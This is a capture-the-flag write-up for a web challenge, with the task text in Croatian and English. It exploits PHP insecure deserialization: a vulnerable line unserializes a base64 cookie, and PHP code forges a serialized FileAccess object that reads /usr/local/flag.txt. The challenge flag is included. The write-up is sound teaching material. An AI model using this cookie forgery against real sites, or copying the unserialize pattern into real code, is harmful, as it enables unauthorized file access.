




# Authentication 

> Category: Web

> Points: 80

## Challenge Description

> translated: While researching the internet, Ana discovered an inovative way to log into her system as an admin without the need of any username or password. Content with her discovery, she has saved a very interesting information on /usr/local/flag.txt, but to access that information you need to sign in as admin.

> native: Istraživajući internet, Ana je otkrila inovativni način kako se prijaviti u sustav kao admin bez da je potrebno ikakvo korisničko ime ili lozinka. Zadovoljna svojim otkrićem, spremila je vrlo zanimljivu informaciju na /usr/local/flag.txt, no za pristup toj informaciji potrebno je prijaviti se u sustav kao admin. 

## Analysis

Without even opening the website, this sounds like an another cookie based task.



Opening inspect element and going to the Storage tab, we find a cookie named "message" with an interesting value.



Since we have the source files of the site, we can look into that. Inside "evenmoresecure.php" there's an IF statement looking at the cookie, and then a PHP getfile statement. ```<p><?php print(unserialize(base64_decode($_COOKIE["message"]))->get_file());?></p>```

We will use base64decode.net to see what that message really is.



So this is a FileAccess class which has a set filename to "/usr/local/default.txt".

So, the obvious route will be to create that class but with a different filename ("/usr/local/flag.txt"), serialize it and encode it in base64.

This is our code, that we will run in an online PHP sandbox; https://sandbox.onlinephpfunctions.com/

```php
<?php
class FileAccess {
    private $filename;
    function set_filename($filename){
        $this->filename=$filename;
    }
    function get_file(){
        return file_get_contents($this->filename);
    }
}

$defaultFileAccess = new FileAccess();
$defaultFileAccess->set_filename("/usr/local/flag.txt");

print(base64_encode(serialize($defaultFileAccess)))

?>
```

After getting the encoded serialized class, we will swap the cookie out, refresh the website and voila :)




## FLAG

> CTF2021[254352283512]